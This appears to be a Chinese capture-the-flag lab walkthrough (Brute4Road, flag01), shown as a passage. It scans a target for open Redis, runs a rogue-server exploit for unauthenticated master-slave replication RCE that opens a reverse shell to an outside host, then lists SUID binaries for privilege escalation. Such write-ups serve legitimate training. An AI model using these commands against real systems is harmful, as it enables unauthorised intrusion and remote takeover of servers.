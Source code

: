 # 春秋云镜-Brute4Road

  
  
&lt;!--more--&gt;  
## flag01  
```bash  
$ nmap -Pn -sT -vv -min-rate 10000 39.98.127.36 -p6379  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 13:35 CST  
Initiating Parallel DNS resolution of 1 host. at 13:35  
Completed Parallel DNS resolution of 1 host. at 13:35, 0.07s elapsed  
Initiating Connect Scan at 13:35  
Scanning 39.98.127.36 [1 port]  
Discovered open port 6379/tcp on 39.98.127.36  
Completed Connect Scan at 13:35, 0.05s elapsed (1 total ports)  
Nmap scan report for 39.98.127.36  
Host is up, received user-set (0.049s latency).  
Scanned at 2025-04-20 13:35:01 CST for 0s  
  
PORT     STATE SERVICE REASON  
6379/tcp open  redis   syn-ack  
  
Read data files from: /opt/homebrew/bin/../share/nmap  
Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds  
```  
存在`redis`未授权服务，直接打`主从复制rce`  
```bash  
root@mail:~/redis-rogue-server-master# python3 redis-rogue-server.py --rhost 39.98.127.36 --rport 6379 --  
lhost 8.137.71.171 --lport 1234  
______         _ _      ______                         _____                            
| ___ \       | (_)     | ___ \                       /  ___|                           
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __   
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ &#39;__\ \ / / _ \ &#39;__|  
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |     
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|     
                                     __/ |                                              
                                    |___/                                               
@copyright n0b0dy @ r3kapig  
  
[info] TARGET 39.98.127.36:6379  
[info] SERVER 8.137.71.171:1234  
[info] Setting master...  
[info] Setting dbfilename...  
[info] Loading module...  
[info] Temerory cleaning up...  
What do u want, [i]nteractive shell or [r]everse shell: r  
[info] Open reverse shell...  
Reverse server address: 8.137.71.171  
Reverse server port: 1235  
[info] Reverse shell payload sent.  
[info] Check at 8.137.71.171:1235  
[info] Unload module...  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504201336987.png)
利用`suid`提权  
`find / -perm -u=s -type f 2&gt;/dev/null`  
```bash  
[redis@centos-web01 tmp]$ find / -perm -u=s -type f 2&gt;/dev/null  
find / -perm -u=s -type f 2&gt;/dev/null  
/usr/sbin/pam_timestamp_check  
/usr/sbin/usernetctl  
/usr/sbin/unix_chkpwd  
```